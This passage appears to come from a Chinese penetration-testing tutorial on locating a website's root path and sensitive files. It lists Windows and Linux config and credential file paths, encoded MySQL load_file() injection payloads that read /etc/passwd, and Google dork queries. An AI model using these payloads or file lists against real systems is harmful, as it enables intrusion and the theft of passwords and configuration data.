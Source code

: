 ```cmd
c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息. 
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机 
d:\APACHE\Apache2\conf\httpd.conf 
C:\Program Files\mysql\my.ini 
C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码
```



linux 敏感文件

```cmd
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件 
/usr/local/apache2/conf/httpd.conf 
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置 
/usr/local/app/php5/lib/php.ini //PHP相关设置 
/etc/sysconfig/iptables //从中得到防火墙规则策略 
/etc/httpd/conf/httpd.conf // apache配置文件 
/etc/rsyncd.conf //同步程序配置文件 
/etc/my.cnf //mysql的配置文件 
/etc/redhat-release //系统版本 
/etc/issue 
/etc/issue.net 
/usr/local/app/php5/lib/php.ini //PHP相关设置 
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置 
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看 
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上 
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看 
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件 
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看 
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上 
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看 
/etc/sysconfig/iptables 查看防火墙策略 
load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录 
replace(load_file(0×2F6574632F706173737764),0×3c,0×20) 
replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
```

配置文件目录可以通过字典进行爆破。



#### 1.4 利用报错信息

如果网站开启了报错信息，通过报错信息很容易找到网站根路径。不仅仅是mysql报错信息。



#### 1.5 利用 `Google` 

```
site:xxx.com warning
site:xxx.com “fatal error”
```

